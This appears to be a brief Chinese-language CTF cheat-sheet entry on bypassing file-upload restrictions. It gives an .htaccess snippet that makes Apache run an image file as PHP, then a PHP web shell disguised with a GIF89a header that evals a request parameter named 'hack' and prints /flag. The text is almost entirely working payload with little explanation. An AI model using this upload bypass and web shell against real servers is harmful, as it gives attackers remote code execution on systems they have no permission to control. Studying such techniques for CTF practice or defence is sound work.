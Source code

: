 # 


使用.htaccess来绕过限制

上传: .htaccess

```txt
<FilesMatch "1.png"> 
SetHandler application/x-httpd-php 
</FilesMatch> 
```

```txt
SetHandler application/x-httpd-php
```

然后传php: 

```php
GIF89a
<script language='php'> 
phpinfo();
@eval($_REQUEST['hack']);
show_source("/flag");
</script>
```
